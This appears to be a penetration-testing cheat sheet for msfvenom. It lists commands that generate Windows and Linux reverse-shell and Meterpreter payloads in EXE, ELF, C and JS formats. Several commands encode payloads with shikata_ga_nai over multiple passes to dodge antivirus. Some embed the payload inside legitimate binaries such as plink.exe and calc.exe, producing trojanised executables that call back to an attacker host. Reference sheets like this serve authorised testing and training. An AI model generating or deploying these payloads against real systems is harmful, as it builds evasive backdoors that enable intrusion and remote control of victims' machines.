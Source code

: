 # Msfvenom

## General commands

* List all payload types, architecture types, encoders and platforms:

```
msfvenom -l payloads
msfvenom -l archs
msfvenom -l encoders
msfvenom -l platforms
```

* Filter for windows x32 and x64 payloads:

```
msfvenom -l payloads --platform windows --arch x86
msfvenom -l payloads --platform windows --arch x64
```

* Filter for linux x32 and x64 payloads:

```
msfvenom -l payloads --platform linux --arch x86
msfvenom -l payloads --platform linux --arch x64
```

* Show output formats (asp, bash, c, dll, elf, exe, jar, php, powershell, python, raw, sh and more):

```
msfvenom -l formats
```

## Payload Generation

### Common payloads

* &#x20;Windows TCP reverse shell executable:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.1 LPORT=55555 -f exe -o out.exe
```

* Linux staged x86 reverse shell payload:

```
$msfvenom -p linux/x86/shell/reverse_tcp LHOST=$LOCALIP LPORT=443 -o staged.out -f elf-so
```

* Linux non-staged x86 reverse shell payload:&#x20;

```
$msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -o non-staged.out -f elf
```

* Linux non-staged x64 payload:

```
$msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LOCALIP LPORT=443 -o non-staged.out -f elf
```

```
$msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP LPORT=443 -f exe -o meterpreter.exe
```

###

###

###

###

###

### C payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f c
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

```
msfvenom -p linux/x86/shell_bind_tcp LPORT=$PORT -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
```

### JS\_LE payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f js_le -e generic/none
```

### EXE payloads

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -o shell_reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

```
msfvenom -p windows/meterpreter/reverse_https LHOST=$LOCALIP LPORT=$PORT -f exe -o met_https_reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -o shell_reverse.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

```
msfvenom -p windows/meterpreter/reverse_http LHOST=$LOCALIP LPORT=$PORT -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o out.exe
```

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LOCALIP LPORT=$PORT -f exe -k -x calc.exe -o calc_2.exe
```



































